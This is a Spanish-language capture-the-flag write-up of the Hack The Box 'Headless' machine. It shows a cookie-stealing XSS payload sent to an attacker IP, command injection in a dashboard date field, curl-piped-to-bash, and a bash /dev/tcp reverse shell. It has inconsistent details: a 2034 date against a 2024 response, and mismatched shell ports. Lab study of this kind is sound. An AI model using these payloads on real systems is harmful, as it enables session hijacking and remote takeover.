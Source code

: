 ```yaml
---
title: "Headless - HTB"
description: "Máquina HTB que usa XSS basado en DOM."
date: 30-03-2034
tags: ["XSS", "Reverse Shell"]
---
```


# Headless

```c
TARGET=10.10.11.8
```

```c
nmap -A -T4 -v $TARGET -oN nmap.out
```

[http://10.10.11.8:5000/](http://10.10.11.8:5000/)

![Untitled](/seguridad/headless/Untitled.png)

[http://10.10.11.8:5000/support](http://10.10.11.8:5000/support)

![Untitled](/seguridad/headless/Untitled%201.png)

[http://10.10.11.8:5000/dashboard](http://10.10.11.8:5000/dashboard)

![Untitled](/seguridad/headless/Untitled%202.png)

# Burp Suite

- Capturamos en la ruta [http://10.10.11.8:5000/support](http://10.10.11.8:5000/support) la petición HTTP/POST, enviamos al repetidor para realizar pruebas.

```cpp
POST /support HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 88
Origin: http://10.10.11.8:5000
Connection: close
Referer: http://10.10.11.8:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1

fname=First&lname=Last&email=mail%40asd.com&phone=3454354&message=hola+este+s+el+mensaje
```

# XSS basado en DOM

Probaremos inyectando código en el atributo `message` del `body`. 

- Petición HTTP

```cpp
POST /support HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 158
Origin: http://10.10.11.8:5000
Connection: close
Referer: http://10.10.11.8:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1

fname=sdasda&lname=asdasd&email=asdas%40asdasd.asd&phone=asdasd&message=<script>document.location="http://10.10.14.144/ovidioxd.js?c="+document.cookie;</script>
```

- Respuesta HTTP

```cpp
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.11.2
Date: Sat, 30 Mar 2024 20:34:06 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2294
Connection: close

<!DOCTYPE html>
<html lang="en">
<head>...
</head>
<body>
    <div class="container">
        <h1>Hacking Attempt Detected</h1>
        <p>Your IP address has been flagged, a report with your browser information has been sent to the administrators for investigation.</p>
        <p><strong>Client Request Information:</strong></p>
        <pre><strong>Method:</strong> POST<br><strong>URL:</strong> http://10.10.11.8:5000/support<br><strong>Headers:</strong> <strong>Host:</strong> 10.10.11.8:5000<br><strong>User-Agent:</strong> Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0<br><strong>Accept:</strong> text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8<br><strong>Accept-Language:</strong> en-US,en;q=0.5<br><strong>Accept-Encoding:</strong> gzip, deflate<br><strong>Content-Type:</strong> application/x-www-form-urlencoded<br><strong>Content-Length:</strong> 160<br><strong>Origin:</strong> http://10.10.11.8:5000<br><strong>Connection:</strong> close<br><strong>Referer:</strong> http://10.10.11.8:5000/support<br><strong>Cookie:</strong> is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs<br><strong>Upgrade-Insecure-Requests:</strong> 1<br><br></pre>
    </div>
</body>
</html>
```

- La respuesta se vería algo como esto

![Untitled](/seguridad/headless/Untitled%203.png)

Esto nos indica que está enviado información al administrador, quizás pueda tener una cookie interesante.

Para ejecutar código desde el servidor web, levantamos un servicio web local para escuchar la respuesta del servidor web e insertamos el vector de ataque en alguna cabecera de la petición HTTP.

- Levantamos un servidor para recibir la variable `document.cookie` del servidor.
    
    ```cpp
    sudo python -m http.server 80
    ```
    

- Vector de ataque.
    
    ```cpp
    <script>document.location="http://10.10.14.144/ovidioxd.js?c="+document.cookie;</script>```
    ```
    

- Petición HTTP/POST con inyección en  `User-Agent` .
    
    ```c
    POST /support HTTP/1.1
    Host: 10.10.11.8:5000
    User-Agent: <script>document.location="http://10.10.14.144/ovidio?xd="+document.cookie;</script>
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 158
    Origin: http://10.10.11.8:5000
    Connection: close
    Referer: http://10.10.11.8:5000/support
    Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
    Upgrade-Insecure-Requests: 1
    
    fname=sdasda&lname=asdasd&email=asdas%40asdasd.asd&phone=asdasd&message=<script>document.location="http://10.10.14.144/ovidio?xd="+document.cookie;</script>
    ```
    

En el servidor local debería recibir la cookie, de esta manera.

![Untitled](/seguridad/headless/Untitled%204.png)

Con la nueva cookie intentamos acceder al sitio que estaba bloqueado.

[https://10.10.11.8:5000/dashboard](http://10.10.11.8:5000/dashboard)

![Untitled](/seguridad/headless/Untitled%202.png)

Insertamos las cookies y ya tenemos acceso.

![Untitled](/seguridad/headless/Untitled%205.png)

Al generar el reporte, se realiza una petición con la fecha al servidor.

```cpp
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://10.10.11.8:5000
Connection: close
Referer: http://10.10.11.8:5000/dashboard
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1

date=2023-09-1
```

Probamos si podemos ejecutar remotamente desde esta petición.

```cpp
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://10.10.11.8:5000
Connection: close
Referer: http://10.10.11.8:5000/dashboard
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1

date=2023-09-15; curl http://10.10.14.144/echo
```

![Untitled](/seguridad/headless/Untitled%206.png)

Preparamos entonces una reverse shell.

# Reverse Shell (RS)

- Reverse Shell en bash.

```bash
#!/bin/bash
# rce-ovidio.sh
bash -c 'bash -i &>/dev/tcp/10.10.14.144/6666 <&1'
```

- Ejecutamos los servicios necesarios.

```c
python -m http.server 80 // servir la RS en la red.
nc -nlvp 4444 // abrir puerto 4444 para escucha de la RS .
```

- Inyectamos la RS en el servidor y

```c
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://10.10.11.8:5000
Connection: close
Referer: http://10.10.11.8:5000/dashboard
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1

date=2023-09-15; curl http://10.10.14.144/rce-ovidio.sh|bash
```